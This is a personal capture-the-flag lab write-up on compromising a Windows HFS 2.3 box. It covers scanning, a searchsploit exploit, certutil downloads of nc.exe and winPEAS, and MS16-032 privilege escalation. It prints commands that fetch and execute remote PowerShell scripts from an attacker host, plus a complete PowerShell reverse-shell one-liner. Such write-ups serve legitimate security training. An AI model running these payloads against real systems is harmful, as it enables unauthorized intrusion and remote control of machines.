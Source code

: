 #Windows 

```
nmap -sCV 10.10.10.8 -p0-65535 -Pn -v -T4
```
![[Pasted image 20240720144908.png]]
![[Pasted image 20240720145008.png]]

**FEROX ENUM**
- Not much found here
```
 sudo feroxbuster --auto-tune --extract-links --random-agent --threads 100 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.8/
```
![[Pasted image 20240720150129.png]]


**HFS 2.3**
![[Pasted image 20240720145528.png]]

Clone exploit 
```
searchsploit -m [exploit_number]
```

Modify code to connect to attacker
![[Pasted image 20240720150306.png]]

Run the exploit
```
python3 49584.py
```
![[Pasted image 20240720151231.png]]
***
user.txt : 6347a195def861e9b24a0530480d7c11
![[Pasted image 20240720151306.png]]

***

**SYSTEMINFO**
![[Pasted image 20240720151700.png]]

`WES` suggester returned many results

Lets get NET version to see if we can run WinPEASS
```
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"
```
![[Pasted image 20240720161342.png]]


**CERTUTIL LOLBIN**
I was not able to get Invoke-WebRequest to properly pull down the winpeass file

```
certutil /?
```

```
certutil -urlcache -split -f http://10.10.16.12:8080/winPEASany.exe
```
![[Pasted image 20240720162803.png]]

WinPeas does not run in this shell
As a matter of fact, most `.exe` will jam the shell here

Lets download `nc.exe` from the attacker machine and spawn a proper reverse shell

```
certutil -urlcache -split -f http://10.10.16.19:8080/nc.exe
```
![[Pasted image 20240722165741.png]]

Now we can run WinPEAS!
![[Pasted image 20240722165820.png]]

That's great but let's try to get a Powershell reverse shell
***
***
Going Back to WES

```
sudo ./wes.py /usr/share/windows-binaries/wesng/Optimum/systeminfo.txt --exploits-only --impact "Elevation of Privilege"
```

MS16-032
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1

Look for pre-compiled code or Powershell code that allows us to run command
![[Pasted image 20240722171344.png]]

Pull down to local attacking machine
```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1
```

Take this line in the code and append to the end
Modify to fit our needs 
*Note!: The Invoke Command has a typo*
```
Invoke-MS16-032 -Command "iex(New-Object Net.WebClient).DownloadString('http://google.com')"
```
![[Pasted image 20240722172045.png]]

***
PRIV ESC

USE `49125`- Previous exploit shell was too unstable
![[Pasted image 20240722181616.png]]

This will spawn a reverse powershell
(`power.ps1`This is just a Nishang Powershell TCP script re-named)

Exploit Usage
 ```
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.19:8080/power.ps1')"
```

![[Pasted image 20240722215515.png]]


In Windows Powershell:
Use MS16032 script we found and modify to be served up
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1

Modify and add this line at end of file
![[Pasted image 20240722215125.png]]

Run in Windows
```
IEX(New-Object Net.WebClient).DownloadString("http://10.10.16.19:80/Invoke-MS16032.ps1")
```
![[Pasted image 20240722215733.png]]

This will connect to our attacker web server on port 80 and execute `revpow.ps1` (it will connect to 8080 to receive) with elevated priv

The `revpow.ps1` is just a powershell reverse shell connecting to 443
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.19",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


![[Pasted image 20240722220258.png]]

![[Pasted image 20240722220317.png]]

root.txt : 6d9c1a5106dc4ea92c0e2d232c27a940


***
***

DEADEND - TBD

https://gist.github.com/mattifestation/47f9e8a431f96a266522

![[Pasted image 20240722163117.png]]

Evasion Tactic

